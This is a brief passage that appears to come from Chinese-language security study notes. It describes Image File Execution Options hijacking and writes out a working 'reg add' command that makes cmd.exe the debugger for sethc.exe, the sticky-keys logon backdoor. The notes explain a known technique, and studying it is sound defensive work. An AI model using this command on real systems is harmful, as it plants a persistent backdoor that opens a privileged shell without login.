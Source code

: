   ![Alt text](../../cyber_security/images/image105.png)

- 映像劫持
  - 修改注册表：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
  ```
  reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution
  Options\sethc.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f
  ```